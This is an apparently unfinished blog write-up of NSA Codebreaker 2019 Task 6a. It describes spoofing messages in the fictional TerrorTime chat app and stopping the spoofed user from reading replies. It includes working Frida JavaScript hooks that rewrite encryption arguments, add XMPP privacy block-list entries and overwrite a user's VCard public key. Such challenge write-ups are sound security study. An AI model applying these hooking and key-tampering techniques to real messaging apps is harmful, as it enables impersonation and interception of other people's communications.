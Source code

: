 ```yaml
---
layout: default
permalink: /CodeBreaker-2019-Task-6a/
title: NSA Codebreaker 2019, Task 6a
---
```


Task 6a requires you to<br>
- spoof a message and<br>
- prevent spoofed user from reading replies.<br>

How messages work
Half way there since un decrypted are hidden

When sending a message, TerrorTime will encrypt the message content with a symmetric key. This key is then encrypted using the sender's local public keys and the receiver's public keys. **need to verify** It's interesting that only the local public keys are used, and not all of the ones listed on the sender's VCard. The app makes the assumption that if the key is on the user's VCard, then it is also in the user's local copy. This prevents the message key from being encrypted with the spoof user's public key. I could send a message from a spoofed user and verify that it was using my key. When the spoofed user logged in, TerrorTime would not be able to decrypt the message and would ignore the message. 

** pic of message being sent, and the encrypted message **

Unfortunately, the recipient was not able to read the message either. I needed to looker deeper into how the message is decrypted. 

** decryption flow, with failure branches** 

In **Messaging.decryptMessage double check**, after the message is decrypted an internal structure is checked. 

** image of message structure **
** image of internal sturture **

The each user's public key fingerprints in the internal structure are checked to determine if the the message key was encrypted with a corresponding public key. If the internal structure contains a fingerprint that was not used, then TerrorTime treats the message as corrupt and drops it. Interestingly, the app does not check if the public key belongs to the sender or the receiver. Additionally, the message key can be encrypted with a public key that is not recorded in the internal structure. This is why I could send messages without error. 

** image of bad message **

Below if the Javascript I injected into TerrorTime to manipulate the message's internal structure to fix the corrupt issue. The script hooks the Messaging.encryptMessage function and changes the arguments sent to the real function. The client's public key fingerprints list is replaced with the contact's. Now when the contact receives the message, the internal structure only contains fingerprints for their own public keys.

{% highlight javascript %}
console.log("Script loaded successfully ");
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");

    var my_class = Java.use("com.badguy.terrortime.crypto.Messaging");
    var Message = Java.use("com.badguy.terrortime.Message");
    my_class.encryptMessage.implementation = function(msg, ckeys, conkeys) { 
        console.log("Edited encrypted message");
        return this.encryptMessage(msg, conkeys, conkeys);
    }
    console.log("Created hooks");
});
{% endhighlight %}

** image of good message **

Removing the spoofed user's public key from their VCard is another method to achieve the same result. The second part of the task can be completed two different ways; only one is checked for by the scoring system. The first method is to add the recipient to the spoofed user's block list. This is not a function provided by the TerrorTime app, but is a function of the XMPP server. The second method is to remove the spoofed user's public key from their VCard. Their public key is added back to the server when the user next logs in, which prevents permentally preventing communication. 

In my opinion, adding the user to a block list is a better method, since it<br>
- has a more grainiar focus,<br>
- enables spoofing while the user is logged in, and<br>
- is less detectable.<br>

Removing the public key has the following downsides,<br>
- blocks all contacts,<br>
- you are unable to control when spoofed user logs back in, and<br>
- is more detectable.<br>

Below is the javascript I injected to add user to blocklist. I had some trouble accessing the Enum PrivacyItem.Type from the JavaScript. This forced me to hook the toMXL function to set the privacyItem values. When a stanza is sent to the XMPP server, the send function will call the function toXML of the object representing the stanza. By hooking this function, I was able to format the XML correctly to block a user. 

{% highlight javascript %}
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");
        var TerrorTimeApplication = Java.use("com.badguy.terrortime.TerrorTimeApplication");
        var PrivacyListManager = Java.use("org.jivesoftware.smackx.privacy.PrivacyListManager");
        var PrivacyList = Java.use("org.jivesoftware.smackx.privacy.PrivacyList");
        var PrivacyItem = Java.use("org.jivesoftware.smackx.privacy.packet.PrivacyItem");
        var Type = Java.use("org.jivesoftware.smackx.privacy.packet.PrivacyItem$Type");
        var Enum = Java.use("java.lang.Enum");
        var ArrayList = Java.use("java.util.ArrayList");
        var JidCreate = Java.use("org.jxmpp.jid.impl.JidCreate");
        var AbstractXMPPConnection = Java.use("org.jivesoftware.smack.AbstractXMPPConnection");
        var String = Java.use("java.lang.String");

        PrivacyItem.toXML.implementation = function(){
            var xml = "<item action=\"deny\" type=\"jid\" value=\"zachary--vhost-174@terrortime.app\" order=\"0\"><message/></item>" // Java.cast(this.toXML(), String);
            return this.toXML();
        }

        Java.choose("com.badguy.terrortime.TerrorTimeApplication", {
            onMatch: function(instance) { 
                  try {
                      console.log("Start");
                      var app = Java.cast(instance, TerrorTimeApplication);
                      var conn_object = app.getXMPPTCPConnection().get();
                      var conn = Java.cast(conn_object, AbstractXMPPConnection);
                      console.log("Got Conn");
                      var block_item = Java.cast(PrivacyItem.$new(false, 0), PrivacyItem);
                      block_item.setFilterMessage(true);
                      console.log(block_item.toXML());

                      console.log("Created privacy list");
                      
                      var privacy_list = PrivacyListManager.getInstanceFor(conn);
                      var block_list = ArrayList.$new();
                      block_list.add(block_item); // have to create list with new operator
                      privacy_list.createPrivacyList("Block_to_Leader", block_list);
                      privacy_list.setActiveListName("Block_to_Leader");
                      console.log("Added user to block list: " + "zachary--vhost-174@terrortime.app");
                  } catch(error) {console.log("error: " + error.toString());}
            }, onComplete: function() {} });

});
{% endhighlight %}
** Picture or GIF of this, 3 phones if possible 1 spoofed, one reciever and one me. **

# Removing the public key from VCard #
I used the **savepublickey** function as a template to write JavaScript to remove the spoofed user's public key from their VCard. The below JavaScript will monitor TerrorTime for instances of the class com.badguy.terrortime.TerrorTimeApplication. Once found, the javascript<br>
- retrieves the current instances of VCardManager and XMPPTCPConnection,<br>
- requests the current user's VCard,<br>
- sets the "DESC" to my public key,<br>
- saves the modified VCard.<br>


{% highlight javascript %}
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");
        var my_class = Java.use("com.badguy.terrortime.VCardHelper");
        var TerrorTimeApplication = Java.use("com.badguy.terrortime.TerrorTimeApplication");
        var AbstractXMPPConnection = Java.use("org.jivesoftware.smack.AbstractXMPPConnection");
        var VCardManager = Java.use("org.jivesoftware.smackx.vcardtemp.VCardManager");
        var VCard = Java.use("org.jivesoftware.smackx.vcardtemp.packet.VCard");
        var PublicKey = Java.use("java.security.Key");
        var Set = Java.use("java.util.Set");
        var Base64 = Java.use("java.util.Base64");
        var String = Java.use("java.lang.String");
        var JidCreate = Java.use("org.jxmpp.jid.impl.JidCreate");
        var EntityFullJid = Java.use("org.jxmpp.jid.EntityFullJid");
        var EntityBareJid = Java.use("org.jxmpp.jid.EntityBareJid");
        var Jid = Java.use("org.jxmpp.jid.Jid");

       console.log("Start");
        Java.choose("com.badguy.terrortime.TerrorTimeApplication", {
            onMatch: function(instance) { 
                  try {
                      var app = Java.cast(instance, TerrorTimeApplication);
                      var vcard_manager = Java.cast(app.getVCardManager().get(), VCardManager);
                      console.log("Got Manager");
                      var conn_object = app.getXMPPTCPConnection().get();
                      var conn = Java.cast(conn_object, AbstractXMPPConnection);
                      console.log("Got Conn");
                      var user = Java.cast(Java.cast(conn.getUser(), Jid).asEntityBareJidIfPossible(), EntityBareJid);
                      console.log("Got Jid");
                      var my_vcard = Java.cast(vcard_manager.loadVCard(user), VCard);
                      console.log("Got vcard");
                      var new_pub_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6xOaF/SVJiwEDCyHAZouu9wTYven46+o6vb9zNM5RgC2L3CkNKdhP0bDNrJbX9hz3BjwACiR4mYkLqbevjomX7ihD3CUtiNj0zXRDuXrrEFuT3dHURO65Ooyk08GS4cDiSpUejcmX4qeuBuefV08eTVSseLGLB8gLUI3IxZ11CKc7cgTCf763SicwcUEJSBV71IEysOKCCjsbqPAS0rRhgVaSIKs7uWqPUuSIIsIjnBi9/DT18OrAfQHyjW8j/I2mi9Mf6FhlhmpgL3L1W58X+LMHdQYDvoKXyPVhDnTInvCm7P7Xddms9qqCAQulxzlL/6HSC2x4c2Fyw9ZYDVytQIDAQAB\n-----END PUBLIC KEY-----";

                      my_vcard.setField("DESC", new_pub_key);
                      vcard_manager.saveVCard(my_vcard);
                      console.log("Saved VCard");
                  } catch(error) {console.log("error: " + error.toString());}
            }, onComplete: function() {} });

});
{% endhighlight %}

Now when a user replies to the spoofed user, the message key is not encrypted with their public key; preventing decryption. Removing the spoofed user's public key from their VCard fixes both problems, prevents the public key fingerprint from being in the messages internal structure and prevents the spoofed user from reading replies. 


** return this.encryptMessage(msg, conkeys, conkeys); // what happens if the inter clientid is different, set out as kingsley, internal as brian **
** is the internal username used for displaying the name, or is the FROM used? Can we create a man in the middle if the internal is used **
** log in as reciepant and watch for recieved messages, then forward to spoofed user if you want **


![_config.yml]({{ site.baseurl }}/images/codebreaker_2019/Task_5/hook_message.png)